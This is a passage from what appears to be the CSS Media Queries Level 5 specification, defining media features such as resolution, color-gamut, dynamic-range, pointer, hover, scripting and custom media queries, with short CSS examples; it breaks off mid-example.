> The `fullscreen` value for `display-mode` is not directly related to the CSS `:fullscreen` pseudo-class. The `:fullscreen` pseudo-class matches an element exclusively when that element is put into the fullscreen element stack. However, a side effect of calling the `requestFullscreen()` method on an element using the Fullscreen API can be that the browser enters a fullscreen mode at the OS-level, in which case both `:fullscreen` and `(display-mode: fullscreen)` will match.
>
> > **Example:** On some platforms, it is possible for a user—​or a Web Application Manifest—​to put a web application into fullscreen without invoking the Fullscreen API. When this happens, the `:fullscreen` pseudo-class will not match, but `(display-mode: fullscreen)` will match. This is exemplified in CSS code below:
> >
> > ```css
> > /* applies when the viewport is fullscreen */
> > @media (display-mode: fullscreen) { … }
> >
> > /* applies when an element is fullscreen */
> > #game:fullscreen { … }
> > ```

> **Note:** Additional values for this media feature may be added in the future to match new display modes added to [APPMANIFEST].

### 5.  Display Quality Media Features {#mediaqueries-5:mf-display-quality}

#### 5.1.  Display Resolution: the `resolution` feature {#mediaqueries-5:resolution}

| Field | Value |
| --- | --- |
| Name: | **resolution** |
| For: | `@media` |
| Value: | `<resolution>` \| infinite |
| Type: | range |

The `resolution` media feature describes the resolution of the output device, i.e. the density of the pixels, taking into account the page zoom but assuming a scale factor of 1.0.

The `resolution` media feature is false in the negative range

When querying media with non-square pixels, `resolution` queries the density in the vertical dimension.

For printers, this corresponds to the screening resolution (the resolution for printing dots of arbitrary color). Printers might have a different resolution for grayscale printing.

For output mediums that have no physical constraints on resolution (such as outputting to vector graphics), this feature must match the **infinite** value. For the purpose of evaluating this media feature in the range context, `infinite` must be treated as larger than any possible `<resolution>`. (That is, a query like `(resolution > 1000dpi)` will be true for an `infinite` media.)

> **Example:** This media query simply detects “high-resolution” screens (those with a hardware pixel to CSS `px` ratio of at least 2):
>
> ```
> @media (resolution >= 2dppx)
> ```

> **Example:** For example, this media query expresses that a style sheet is used on devices with resolution greater than 300 dots per CSS `in`:
>
> ```
> @media print and (min-resolution: 300dpi) { … }
> ```
>
> This media query is equivalent, but uses the CSS `cm` unit:
>
> ```
> @media print and (min-resolution: 118dpcm) { … }
> ```

> **Note:** `<resolution>` does not refer to the number of device pixels per physical length unit, but the number of device pixels per css unit. This mapping is done by the user agent, so it is always known to the user agent.
>
> If the user agent either has no knowledge of the geometry of physical pixels, or knows about the geometry physical pixels and they are (close enough to) square, it would not map a different number of device pixels per css pixels along each axis, and the would therefore be no difference between the vertical and horizontal resolution.
>
> Otherwise, if the UA chooses to map a different number along each axis, this would be to respond to physical pixels not being square either. How the UA comes to this knowledge is out of scope, but having enough information to take this decision, it can invert the mapping should the device be rotated 90 degrees.

#### 5.2.  Display Type: the `scan` feature {#mediaqueries-5:scan}

| Field | Value |
| --- | --- |
| Name: | **scan** |
| For: | `@media` |
| Value: | interlace \| progressive |
| Type: | discrete |

The `scan` media feature describes the scanning process of some output devices.

****interlace****

: CRT and some types of plasma TV screens used “interlaced” rendering, where video frames alternated between specifying only the “even” lines on the screen and only the “odd” lines, exploiting various automatic mental image-correction abilities to produce smooth motion. This allowed them to simulate a higher FPS broadcast at half the bandwidth cost.

  When displaying on interlaced screens, authors should avoid very fast movement across the screen to avoid “combing”, and should ensure that details on the screen are wider than `1px` to avoid [“twitter”](https://en.wikipedia.org/wiki/Interlaced_video#Interline_twitter).

****progressive****

: A screen using “progressive” rendering displays each screen fully, and needs no special treatment.

  Most modern screens, and all computer screens, use progressive rendering.

> **Example:** For example, the “feet” of letters in serif fonts are very small features that can provoke “twitter” on interlaced devices. The `scan` media feature can be used to detect this, and use an alternative font with less chance of “twitter”:
>
> ```
> @media (scan: interlace) { body { font-family: sans-serif; } }
> ```

> **Note:** At the time of writing, all known implementations match `scan: progressive` rather than `scan: interlace`.

#### 5.3.  Detecting Console Displays: the `grid` feature {#mediaqueries-5:grid}

| Field | Value |
| --- | --- |
| Name: | **grid** |
| For: | `@media` |
| Value: | `<mq-boolean>` |
| Type: | discrete |

The `grid` media feature is used to query whether the output device is grid or bitmap. If the output device is grid-based (e.g., a “tty” terminal, or a phone display with only one fixed font), the value will be 1. Otherwise, the value will be 0.

The **<mq-boolean>** value type is an `<integer>` with the value `0` or `1`. Any other integer value is invalid. Note that `-0` is always equivalent to `0` in CSS, and so is also accepted as a valid `<mq-boolean>` value.

> **Note:** The `<mq-boolean>` type exists only for legacy purposes. If this feature were being designed today, it would instead use proper named keywords for its values.

> **Example:** Here is an example that detects a narrow console screen:
>
> ```
> @media (grid) and (max-width: 15em) { … }
> ```

> **Note:** At the time of writing, all known implementations match `grid: 0` rather than `grid: 1`.

#### 5.4.  Display Update Frequency: the `update` feature {#mediaqueries-5:update}

| Field | Value |
| --- | --- |
| Name: | **update** |
| For: | `@media` |
| Value: | none \| slow \| fast |
| Type: | discrete |

The `update` media feature is used to query the ability of the output device to modify the appearance of content once it has been rendered. It accepts the following values:

****none****

: Once it has been rendered, the layout can no longer be updated. Example: documents printed on paper.

****slow****

: The layout may change dynamically according to the usual rules of CSS, but the output device is not able to render or display changes quickly enough for them to be perceived as a smooth animation. Example: E-ink screens or severely under-powered devices.

****fast****

: The layout may change dynamically according to the usual rules of CSS, and the output device is not unusually constrained in speed, so regularly-updating things like CSS Animations can be used. Example: computer screens.

> **Example:** For example, if a page styles its links to only add underlines on hover, it may want to always display underlines when printed:
>
> ```
> @media (update) {
>   a { text-decoration: none; }
>   a:hover, a:focus { text-decoration: underline; }
> }
> /* In non-updating UAs, the links get their default underline at all times. */
> ```

#### 5.5.  Detecting the display technology: the `environment-blending` feature {#mediaqueries-5:environment-blending}

| Field | Value |
| --- | --- |
| Name: | **environment-blending** |
| For: | `@media` |
| Value: | opaque \| additive \| subtractive |
| Type: | discrete |

The `environment-blending` media feature is used to query the characteristics of the user’s display so the author can adjust the style of the document. An author might choose to adjust the visuals and/or layout of the page depending on the display technology to increase the appeal or improve legibility.

The following values are valid:

****opaque****

: The document is rendered on an opaque medium, such as a traditional monitor or paper. Black is dark and white is 100% light.

****additive****

: The display blends the colors of the canvas with the real world using additive mixing. Black is fully transparent and white is 100% light.

  For example: a head-up display in a car.

****subtractive****

: The display blends the colors of the canvas with the real world using subtractive mixing. White is fully transparent and dark colors have the most contrast.

  For example: an LCD display embedded in a bathroom mirror.

> **Issue:** Is there a need for the `subtractive` value?

> **Example:** ```
> body { background-color: white; }
> p { color: black; }
>
> @media(environment-blending: additive) {
>   body { background-color: black; }
>   p { color: white; font-size: 16px; font-weight: 1000; }
> }
> ```

### 6.  Color Media Features {#mediaqueries-5:mf-colors}

#### 6.1.  Color Depth: the `color` feature {#mediaqueries-5:color}

| Field | Value |
| --- | --- |
| Name: | **color** |
| For: | `@media` |
| Value: | `<integer>` |
| Type: | range |

The `color` media feature describes the number of bits per color component of the output device. If the device is not a color device, the value is zero.

`color` is false in the negative range.

> **Example:** For example, these two media queries express that a style sheet applies to all color devices:
>
> ```
> @media (color) { … }
> @media (min-color: 1) { … }
> ```

> **Example:** This media query expresses that a style sheet applies to color devices with at least 8 bits per color component:
>
> ```
> @media (color >= 8) { … }
> ```

If different color components are represented by different number of bits, the smallest number is used.

> **Example:** For instance, if an 8-bit color system represents the red component with 3 bits, the green component with 3 bits, and the blue component with 2 bits, the `color` media feature will have a value of 2.

In a device with indexed colors, the minimum number of bits per color component in the lookup table is used.

> **Note:** The described functionality is only able to describe color capabilities at a superficial level. `color-gamut`, is generally more relevant to authors’ needs. If further functionality is required, RFC2879 [RFC2879] provides more specific media features which may be supported at a later stage.

#### 6.2.  Paletted Color Screens: the `color-index` feature {#mediaqueries-5:color-index}

| Field | Value |
| --- | --- |
| Name: | **color-index** |
| For: | `@media` |
| Value: | `<integer>` |
| Type: | range |

The `color-index` media feature describes the number of entries in the color lookup table of the output device. If the device does not use a color lookup table, the value is zero.

`color-index` is false in the negative range.

> **Example:** For example, here are two ways to express that a style sheet applies to all color index devices:
>
> ```
> @media (color-index) { … }
> @media (color-index >= 1) { … }
> ```

> **Example:** This media query expresses that a style sheet applies to a color index device with 256 or more entries:
>
> ```
> <?xml-stylesheet media="(min-color-index: 256)"
>   href="http://www.example.com/…" ?>
> ```

#### 6.3.  Monochrome Screens: the `monochrome` feature {#mediaqueries-5:monochrome}

| Field | Value |
| --- | --- |
| Name: | **monochrome** |
| For: | `@media` |
| Value: | `<integer>` |
| Type: | range |

The `monochrome` media feature describes the number of bits per pixel in a monochrome frame buffer. If the device is not a monochrome device, the output device value will be 0.

`monochrome` is false in the negative range.

> **Example:** For example, this is how to express that a style sheet applies to all monochrome devices:
>
> ```
> @media (monochrome) { … }
> ```

> **Example:** Express that a style sheet applies to monochrome devices with more than 2 bits per pixels:
>
> ```
> @media (monochrome >= 2) { … }
> ```

> **Example:** Express that there is one style sheet for color pages and another for monochrome:
>
> ```
> <link rel="stylesheet" media="print and (color)" href="http://…" />
> <link rel="stylesheet" media="print and (monochrome)" href="http://…" />
> ```

#### 6.4.  Color Display Quality: the `color-gamut` feature {#mediaqueries-5:color-gamut}

| Field | Value |
| --- | --- |
| Name: | **color-gamut** |
| For: | `@media` |
| Value: | srgb \| p3 \| rec2020 |
| Type: | discrete |

The `color-gamut` media feature describes the approximate range of colors that are supported by the UA and output device. That is, if the UA receives content with colors in the specified space it can cause the output device to render the appropriate color, or something appropriately close enough.

> **Note:** The query uses approximate ranges for a few reasons. Firstly, there are a lot of differences in display hardware. For example, a device might claim to support "Rec. 2020", but actually renders a significantly lower range of the full gamut. Secondly, there are a lot of different color ranges that different devices support, and enumerating them all would be tedious. In most cases the author does not need to know the exact capabilities of the display, just whether it is better than sRGB, or significantly better than sRGB. That way they can serve appropriate images, tagged with color profiles, to the user.

****srgb****

: The UA and output device can support approximately the sRGB gamut or more.

  > **Note:** It is expected that the vast majority of color displays will be able to return true to a query of this type.

****p3****

: The UA and output device can support approximately the gamut specified by the Display P3 [Display-P3] Color Space or more.

  > **Note:** The `p3` gamut is larger than and includes the `srgb` gamut.

****rec2020****

: The UA and output device can support approximately the gamut specified by the ITU-R Recommendation BT.2020 Color Space or more.

  > **Note:** The `rec2020` gamut is larger than and includes the `p3` gamut.

The following table lists the primary colors of these color spaces in terms of their color space chromaticity coordinates, as defined in [COLORIMETRY].

| Color Space | White Point | Primaries |  |  |  |  |  |  |
| --- | --- | --- | --- | --- | --- | --- | --- | --- |
| Red | Green | Blue |  |  |  |  |  |  |
| xW | yW | xR | yR | xG | yG | xB | yB |  |
| srgb | 0.3127 | 0.3290 | 0.640 | 0.330 | 0.300 | 0.600 | 0.150 | 0.060 |
| p3 | 0.3127 | 0.3290 | 0.680 | 0.320 | 0.265 | 0.690 | 0.150 | 0.060 |
| rec2020 | 0.3127 | 0.3290 | 0.708 | 0.292 | 0.170 | 0.797 | 0.131 | 0.046 |

> **Note:** The table above does not contains enough information to fully describe the color spaces, but is sufficient to determine whether an output device approximately covers their respective gamuts. See [SRGB] for more information on sRGB, [Display-P3] for more information on Display P3, and [ITU-R-BT-2020-2] for more information on ITU-R Recommendation BT.2020.

> **Example:** For example, this media query applies when the display supports colors in the range of Display P3:
>
> ```css
> @media (color-gamut: p3) { … }
> ```

> **Note:** An output device can return true for multiple values of this media feature, if its full output gamut is large enough, or one gamut is a subset of another supported gamut. As a result, this feature is best used in an "ascending" fashion—​set a base value when `(color-gamut: srgb)` is true, then override it if `(color-gamut: p3)` is true, etc.

> **Note:** Some output devices, such as monochrome displays, cannot support even the `srgb` gamut. To test for these devices, you can use this feature in a negated boolean-context fashion: `not (color-gamut)`.

#### 6.5.  Dynamic Range: the `dynamic-range` feature {#mediaqueries-5:dynamic-range}

| Field | Value |
| --- | --- |
| Name: | **dynamic-range** |
| For: | `@media` |
| Value: | standard \| high |
| Type: | discrete |

`dynamic-range` represents the combination of max brightness, color depth, and contrast ratio that are supported by the user agent and output device.

****high****

: The user agent and the output device fulfill all of the following criteria:

  - they support a high peak brightness
  - they support a high contrast ratio
  - the color depth is greater than 24 bit or 8 bit per color component of RGB

  > **Note:** Some devices have high dynamic range capabilities that are not always on, and that need to be activated (sometimes programmatically, sometimes by the user, sometimes based on the content). This media feature does not test whether such a mode is active, just whether the device is capable of high dynamic range visuals.

****standard****

: This value matches on any visual device, and not on devices lacking visual capabilities.

> **Note:** More than one value of this media feature can match simultaneously: a user agent matching `high` will also match `standard`.

##### 6.5.1.  Determining contrast and brightness of display {#mediaqueries-5:contrast-brightness-of-display}

**Peak brightness** refers to how bright the brightest point a light-emitting device such as an LCD screen can produce, or in the case of a light reflective device such as paper or e-ink, the point at which it least absorbs light.

> **Note:** Some devices can only produce their peak brightness for brief periods of time or on a small portion of their surface at any given time.

The **contrast ratio** is the ratio of the luminance of the brightest color to that of the darkest color that the system is capable of producing.

This specification does not define precise ways by which these qualities can be measured; it also lets the user agent determine what counts as a **high** contrast ratio and as a **high** peak brightness. User agents must nonetheless attempt to conform to the following intent: a device capable of high peak brightness can display “brighter than white” highlights, and a simultaneous ability to do so while also presenting deep blacks (rather than an overall bright but washed out image) is indicative of a high contrast ratio.

> **Note:** The determination for `dynamic-range` and `video-dynamic-range` will be vary depending on the user agent, but is expected to have broadly dependable semantics.

#### 6.6.  Detecting inverted colors on the display: the `inverted-colors` feature {#mediaqueries-5:inverted}

| Field | Value |
| --- | --- |
| Name: | **inverted-colors** |
| For: | `@media` |
| Value: | none \| inverted |
| Type: | discrete |

The `inverted-colors` media feature indicates whether the content is displayed normally, or whether colors have been inverted.

> **Note:** This is an indication that the user agent or underlying operating system has forcibly inverted all colors, not a request to do so. This is sometimes provided as a simple accessibility feature, allowing users to switch between light-on-dark and dark-on-light text. However, this has unpleasant side effects, such as inverting pictures, or turning shadows into highlights, which reduce the readability of the content.

****none****

: Colors are displayed normally.

****inverted****

: All pixels within the displayed area have been inverted.

  This value must not match if the user agent has done some kind of content aware inversion such as one that preserves the images.

  > **Note:** This is because the goal of this media feature is to enable authors to mitigate the undesirable effects of the non content aware approach that invert *all* the pixels. If the author were to take counter measures even in the content-aware cases, their counter measures and the UA’s would be at risk of cancelling each other.

> **Example:** Depending on their style sheet, authors may wish to invert images and videos:
>
> ```css
> @media (inverted-colors) {
>   img:not(picture > img), picture, video {
>     filter: invert(100%);
>   }
> }
> ```
>
> Authors may also invert images injected via CSS (such as backgrounds), or disable shadows:
>
> ```css
> @media (inverted-colors) {
>   * {
>     text-shadow: none !important;
>     box-shadow: none !important;
>   }
> }
> ```

### 7.  Interaction Media Features {#mediaqueries-5:mf-interaction}

The “interaction” media features reflect various aspects of how the user interacts with the page.

> **Note:** Typical examples of devices matching combinations of `pointer` and `hover`:
>
> |  | `pointer: none` | `pointer: coarse` | `pointer: fine` |
> | --- | --- | --- | --- |
> | `hover: none` | keyboard-only controls, sequential/spatial (d-pad) focus navigation | smartphones, touch screens | basic stylus digitizers (Cintiq, Wacom, etc) |
> | `hover: hover` |  | Nintendo Wii controller, Kinect | mouse, touch pad, advanced stylus digitizers (Surface, Samsung Note, Wacom Intuos Pro, etc) |

The `pointer` and `hover` features relate to the characteristics of the “primary” pointing device, while `any-pointer` and `any-hover` can be used to query the properties of all potentially available pointing devices.

> **Note:** While this specification does not define how user agents should decide what the “primary” pointing device is, the expectation is that user agents should make this determination by combining knowledge about the device/environment they are running on, the number and type of pointing devices available, and a notion of which of these is generally and/or currently being used. In situations where the primary input mechanism for a device is not a pointing device, but there is a secondary – and less frequently used – input that is a pointing devices, the user agent may decide to treat the non-pointing device as the primary (resulting in 'pointer: none'). user agents may also decide to dynamically change what type of pointing device is deemed to be primary, in response to changes in the user environment or in the way the user is interacting with the UA.

> **Note:** The `pointer`, `hover`, `any-pointer` and `any-hover` features only relate to the characteristics, or the complete absence, of pointing devices, and can not be used to detect the presence of non-pointing device input mechanisms such as keyboards. Authors should take into account the potential presence of non-pointing device inputs, regardless of which values are matched when querying these features.

> **Note:** While `pointer` and `hover` can be used to design the main style and interaction mode of the page to suit the primary input mechanism (based on the characteristics, or complete absence, of the primary pointing device), authors should strongly consider using `any-pointer` and `any-hover` to take into account all possible types of pointing devices that have been detected.

#### 7.1.  Pointing Device Quality: the `pointer` feature {#mediaqueries-5:pointer}

| Field | Value |
| --- | --- |
| Name: | **pointer** |
| For: | `@media` |
| Value: | none \| coarse \| fine |
| Type: | discrete |

The `pointer` media feature is used to query the presence and accuracy of a pointing device such as a mouse. If multiple pointing devices are present, the `pointer` media feature must reflect the characteristics of the “primary” pointing device, as determined by the user agent. (To query the capabilities of *any* available pointing devices, see the `any-pointer` media feature.)

****none****

: The primary input mechanism of the device does not include a pointing device.

****coarse****

: The primary input mechanism of the device includes a pointing device of limited accuracy. Examples include touchscreens and motion-detection sensors (like the Kinect peripheral for the Xbox.)

****fine****

: The primary input mechanism of the device includes an accurate pointing device. Examples include mice, touchpads, and drawing styluses.

Both `coarse` and `fine` indicate the presence of a pointing device, but differ in accuracy. A pointing device with which it would be difficult or impossible to reliably pick one of several small adjacent targets at a zoom factor of 1 would qualify as `coarse`. Changing the zoom level does not affect the value of this media feature.

> **Note:** As the UA may provide the user with the ability to zoom, or as secondary pointing devices may have a different accuracy, the user may be able to perform accurate clicks even if the value of this media feature is `coarse`. This media feature does not indicate that the user will never be able to click accurately, only that it is inconvenient for them to do so. Authors are expected to react to a value of `coarse` by designing pages that do not rely on accurate clicking to be operated.

For accessibility reasons, even on devices whose pointing device can be described as `fine`, the UA may give a value of `coarse` or `none` to this media query, to indicate that the user has difficulties manipulating the pointing device accurately or at all. In addition, even if the primary pointing device has `fine` pointing accuracy, there may be additional `coarse` pointing devices available to the user. Authors may wish to query the `any-pointer` media feature to take these other `coarse` potential pointing devices into account.

> **Example:** ```
> /* Make radio buttons and check boxes larger if we have an inaccurate primary pointing device */
> @media (pointer:coarse) {
>   input[type="checkbox"], input[type="radio"] {
>     min-width:30px;
>     min-height:40px;
>     background:transparent;
>   }
> }
> ```

#### 7.2.  Hover Capability: the `hover` feature {#mediaqueries-5:hover}

| Field | Value |
| --- | --- |
| Name: | **hover** |
| For: | `@media` |
| Value: | none \| hover |
| Type: | discrete |

The `hover` media feature is used to query the user’s ability to hover over elements on the page with the primary pointing device. If a device has multiple pointing devices, the `hover` media feature must reflect the characteristics of the “primary” pointing device, as determined by the user agent. (To query the capabilities of *any* available pointing devices, see the `any-hover` media feature.)

****none****

: Indicates that the primary pointing device can’t hover, or that there is no pointing device. Examples include touchscreens and screens that use a basic drawing stylus.

  Pointing devices that can hover, but for which doing so is inconvenient and not part of the normal way they are used, also match this value. For example, a touchscreen where a long press is treated as hovering would match `hover: none`.

****hover****

: Indicates that the primary pointing device can easily hover over parts of the page. Examples include mice and devices that physically point at the screen, like the Nintendo Wii controller.

> **Example:** For example, on a touch screen device that can also be controlled by an optional mouse, the `hover` media feature should match `hover: none`, as the primary pointing device (the touch screen) does not allow the user to hover.
>
> However, despite this, the optional mouse does allow users to hover. Authors should therefore be careful not to assume that the `:hover` pseudo-class will never match on a device where 'hover:none' is true, but they should design layouts that do not depend on hovering to be fully usable.

For accessibility reasons, even on devices that do support hovering, the UA may give a value of `hover: none` to this media query, to opt into layouts that work well without hovering. Note that even if the primary input mechanism has 'hover: hover' capability, there may be additional input mechanisms available to the user that do not provide hover capabilities.

> **Example:** ```
> /* Only use a hover-activated drop down menu on devices that can conveniently hover. */
> @media (hover) {
>   .menu > li        {display:inline-block;}
>   .menu ul          {display:none; position:absolute;}
>   .menu li:hover ul {display:block; list-style:none; padding:0;}
>   /* ... */
> }
> ```

#### 7.3.  All Available Interaction Capabilities: the `any-pointer` and `any-hover` features {#mediaqueries-5:any-input}

| Field | Value |
| --- | --- |
| Name: | **any-pointer** |
| For: | `@media` |
| Value: | none \| coarse \| fine |
| Type: | discrete |

| Field | Value |
| --- | --- |
| Name: | **any-hover** |
| For: | `@media` |
| Value: | none \| hover |
| Type: | discrete |

The `any-pointer` and `any-hover` media features are identical to the `pointer` and `hover` media features, but they correspond to the union of capabilities of all the pointing devices available to the user. In the case of `any-pointer`, more than one of the values can match, if different pointing devices have different characteristics.

`any-pointer` and `any-hover` must only match `none` if *all* of the pointing devices would match `none` for the corresponding query, or there are no pointing devices at all.

> **Note:** `any-pointer` is used to query the presence and accuracy of pointing devices. It does not take into account any additional non-pointing device inputs, and can not be used to test for the presence of other input mechanisms, such as d-pads or keyboard-only controls, that don’t move an on-screen pointer. 'any-pointer:none' will only evaluate to true if there are no pointing devices at all present.

> **Example:** On a traditional desktop environment with a mouse and keyboard, 'any-pointer:none' will be false (due to the presence of the mouse), even though a non-pointer input (the keyboard) is also present.

> **Note:** 'any-hover:none' will only evaluate to true if there are no pointing devices, or if all the pointing devices present lack hover capabilities. As such, it should be understood as a query to test if any hover-capable pointing devices are present, rather than whether or not any of the pointing devices is hover-incapable. The latter scenario can currently not be determined using `any-hover` or any other interaction media feature. Additionally, it does not take into account any non-pointing device inputs, such as d-pads or keyboard-only controls, which by their very nature are also not hover-capable.

> **Example:** On a touch-enabled laptop with a mouse and a touchscreen, 'any-hover:none' will evaluate to false (due to the presence of the hover-capable mouse), even though a non-hover-capable pointing device (the touchscreen) is also present. It is currently not possible to provide different styles for cases where different pointing devices have different hover capabilities.

> **Note:** Designing a page that relies on hovering or accurate pointing only because `any-hover` or `any-pointer` indicate that at least one of the available input mechanisms has these capabilities is likely to result in a poor experience. However, authors may use this information to inform their decision about the style and functionality they wish to provide based on any additional pointing devices that are available to the user.

> **Example:** A number of smart TVs come with a way to control an on-screen cursor, but it is often fairly basic controller which is difficult to operate accurately.
>
> A browser in such a smart TV would have `coarse` as the value of both `pointer` and `any-pointer`, allowing authors to provide a layout with large and easy to reach click targets.
>
> The user may also have paired a Bluetooth mouse with the TV, and occasionally use it for extra convenience, but this mouse is not the main way the TV is operated. `pointer` still matches `coarse`, while `any-pointer` now both matches `coarse` and `fine`.
>
> Switching to small click targets based on the fact that `(any-pointer: fine)` is now true would not be appropriate. It would not only surprise the user by providing an experience out of line with what they expect on a TV, but may also be quite inconvenient: the mouse, not being the primary way to control the TV, may be out of reach, hidden under one of the cushions on the sofa...
>
> By contrast, consider scrolling on the same TV. Scrollbars are difficult to manipulate without an accurate pointing device. Having prepared an alternative way to indicate that there is more content to be seen based on `(pointer: coarse)` being true, an author may want to still show the scrollbars in addition if `(any-pointer: fine)` is true, or to hide them altogether to reduce visual clutter if `(any-pointer: fine)` is false.

#### 7.4.  Detecting UA-supplied navigation controls: the `nav-controls` feature {#mediaqueries-5:nav-controls}

| Field | Value |
| --- | --- |
| Name: | **nav-controls** |
| For: | `@media` |
| Value: | none \| back |
| Type: | discrete |

The `nav-controls` media features allows authors to know whether the user agent is providing obviously discoverable navigation controls as part of its user interface.

> **Note:** Traditional browsers typically do provide such controls and web pages typically have not needed to concern themselves with that, but in some contexts, web applications are run through so-called web-views, which do not always feature a full-fledged user interface. It is thus useful for authors to know what is being supplied by the user agent, so that they can consider whether they need to provide an easily discovered alternative.

In this context, **obviously discoverable** refers to controls which are either directly visible in the user interface, such as buttons, or some other form of control which is typical of the user interface of that device and trivially identifiable by the user. In the case of visual user interfaces, this would typically a *visible* control, although it could be something else in the case of an audio or tactile user interface. Importantly, this is not about keyboard shortcuts or gestures; as convenient as these can be, these are not obviously discoverable by just looking at (in the case of a visual UI) the user agent.

The following values are valid:

****none****

: The user agent does not have any obviously discoverable navigation controls, and in particular none that cause the user agent to move back to the page’s previous [session history entry](https://html.spec.whatwg.org/multipage/browsing-the-web.html#session-history-entry).

****back****

: The user agent provides navigation controls, including at least an obviously discoverable control causing the user agent to move back to the page’s previous [session history entry](https://html.spec.whatwg.org/multipage/browsing-the-web.html#session-history-entry) (typically, a “back” button).

> **Example:** Authors can include a back button in their web application, and then conditionally hide it if the user agent already offers that functionality:
>
> ```
> @media (nav-controls: back) {
>   #back-button {
>     display: none;
>   }
> }
> ```
>
> As this media feature can be used in a boolean context, the same example can be written with shorter syntax:
>
> ```
> @media (nav-controls) {
>   #back-button {
>     display: none;
>   }
> }
> ```
>
> > **Note:** Theoretically, the two are not strictly equivalent, as there could be new values in a future extension of this media feature other than `back` that could match when `back` doesn’t. In that case, using the `nav-controls` feature in a boolean context could be misleading. However, given that navigation back is arguably the most fundamental navigation operation, the CSS Working Group does not anticipate user interfaces with explicit navigation controls but no back button, so this problem is not expected to occur in practice.

Whether obviously discoverable controls are active does not impact the evaluation of this media feature.

> **Example:** If there is no previous [session history entry](https://html.spec.whatwg.org/multipage/browsing-the-web.html#session-history-entry) for the page, a user agent with a “back” button could toggle it to a disabled state that cannot be interacted with until there actually is history that can be navigated back to. In such a case, `@media (nav-controls: back) { … }` would still be expected to match.

### 8. Video Prefixed Features {#mediaqueries-5:video-prefixed-features}

Some user agents, including many TVs, render video and graphics in two separate "planes" (bi-plane) with distinct screen characteristics. A set of video-prefixed features is provided to describe the video plane.

Any bi-plane implementation must return values based on the video plane for the following features: `video-color-gamut`; `video-dynamic-range`. All other features must return values based on the graphics plane.

Non bi-plane implementations must return the same values for video-prefixed features and their non-prefixed counterparts.

#### 8.1.  Video Color Display Quality: the `video-color-gamut` feature {#mediaqueries-5:video-color-gamut}

| Field | Value |
| --- | --- |
| Name: | **video-color-gamut** |
| For: | `@media` |
| Value: | srgb \| p3 \| rec2020 |
| Type: | discrete |

The `video-color-gamut` media feature describes the approximate range of colors that are supported by the UA and output device’s video plane. That is, if the UA receives content with colors in the specified space it can cause the output device to render the appropriate color, or something appropriately close enough.

Value and color space definitions are the same as `color-gamut`.

#### 8.2.  Video Dynamic Range: the `video-dynamic-range` feature {#mediaqueries-5:video-dynamic-range}

| Field | Value |
| --- | --- |
| Name: | **video-dynamic-range** |
| For: | `@media` |
| Value: | standard \| high |
| Type: | discrete |

`video-dynamic-range` represents the combination of max brightness, color depth, and contrast ratio that are supported by the UA and output device’s video plane.

Supported values are the same as [dynamic-range](#mediaqueries-5:dynamic-range).

### 9.  Scripting Media Features {#mediaqueries-5:mf-scripting}

#### 9.1.  Scripting Support: the `scripting` feature {#mediaqueries-5:scripting}

| Field | Value |
| --- | --- |
| Name: | **scripting** |
| For: | `@media` |
| Value: | none \| initial-only \| enabled |
| Type: | discrete |

The `scripting` media feature is used to query whether scripting languages, such as JavaScript, are supported on the current document.

****enabled****

: Indicates that the user agent supports scripting of the page, and that scripting in the current document is enabled for the lifetime of the document.

****initial-only****

: Indicates that the user agent supports scripting of the page, and that scripting in the current document is enabled during the initial page load, but is not supported afterwards. Examples are printed pages, or pre-rendering network proxies that render a page on a server and send a nearly-static version of the page to the user.

  > **Issue:** Should there be an explicit minimum threshold to meet before a UA is allowed to claim `initial-only`? Having one would mean authors would know what they can depend on, and could tailor their scripts accordingly. On the other hand, pinpointing that threshold is difficult: if it is set too low, the scripting facilities that authors can depend on may be to constrained to be practical, even though actual UAs may potentially all support significantly more. But trying to set it higher may cause us to exclude UAs that do support scripting at loading time, but restrict it in some cases based on complex heuristics. For instance, conservative definitions likely include at least running all inline scripts and firing the DOMContentLoaded event. But it does not seem useful for authors to constrain themselves to this if most (or maybe all) `initial-only` UAs also load external scripts (including `async` and `defer`) and fire the load event. On the other hand, requiring external scripts to be loaded and the load event to be fired could exclude UAs like Opera mini, which typically do run them, but may decide not to based on timeouts and other heuristics. [[Issue #503]](https://github.com/w3c/csswg-drafts/issues/503)

****none****

: Indicates that the user agent will not run scripts for this document; either it doesn’t support a scripting language, or the support isn’t active for the current document.

Some user agents have the ability to turn off scripting support on a per script basis or per domain basis, allowing some, but not all, scripts to run in a particular document. The `scripting` media feature does not allow fine grained detection of which script is allowed to run. In this scenario, the value of the `scripting` media feature should be `enabled` or `initial-only` if scripts originating on the same domain as the document are allowed to run, and `none` otherwise.

> **Note:** A future level of CSS may extend this media feature to allow fine-grained detection of which script is allowed to run.

### 10.  Custom Media Queries {#mediaqueries-5:custom-mq}

When designing documents that use media queries, the same media query may be used in multiple places, such as to qualify multiple `@import` statements. Repeating the same media query multiple times is an editing hazard; an author making a change must edit every copy in the same way, or suffer from difficult-to-find bugs in their CSS.

To help ameliorate this, this specification defines a method of defining custom media queries, which are simply-named aliases for longer and more complex media queries. In this way, a media query used in multiple places can instead be assigned to a custom media query, which can be used everywhere, and editing the media query requires touching only one line of code.

A **custom media query** is defined with the `@custom-media` rule:

```css
@custom-media = @custom-media <extension-name> [ <media-query-list> | true | false ] ;
```

The `<extension-name>` can then be used in a media feature. It **must** be used in a boolean context; using them in a normal or range context is a syntax error. If a `<media-query-list>` is given, the custom media query evaluates to true if the <media-query-list> it represents evaluates to true, and false otherwise. If **true** or **false** is given, the custom media query evaluates to true or false, respectively.

> **Example:** The custom media query is evaluated logically, not treated as a textual substitution. Take the following code snippet for instance:
>
> ```
> /* --modern targets modern devices that support color or hover */
> @custom-media --modern (color), (hover);
>
> @media (--modern) and (width > 1024px) {
>   .a { color: green; }
> }
> ```
>
> It is equivalent to:
>
> ```
> @media ((color) or (hover)) and (width > 1024px) {
>   .a { color: green; }
> }
> ```
>
> Processing it as if it meant the following would be incorrect:
>
> ```
> @media (color), (hover) and (width > 1024px) {
>   .a { color: green; }
> }
> ```

A `@custom-media` rule can refer to other custom media queries. However, loops are forbidden, and a custom media query must not be defined in terms of itself or of another custom media query that directly or indirectly refers to it. Any such attempt of defining a custom media query with a circular dependency must cause all the custom media queries in the loop to fail to be defined.

If multiple `@custom-media` rules declare the same `<extension-name>`, the truth value is based on the last one alone, ignoring all previous declarations of the same <extension-name>.

> **Note:** For error handling purposes, an undefined media feature is different from a media feature that evaluates to false. See [Media Queries 4 § 3.2 Error Handling](#mediaqueries-5:error-handling) for details.

> **Example:** For example, if a responsive site uses a particular breakpoint in several places, it can alias that with a reasonable name:
>
> ```
> @custom-media --narrow-window (max-width: 30em);
>
> @media (--narrow-window) {
>   /* narrow window styles */
> }
> @media (--narrow-window) and (script) {
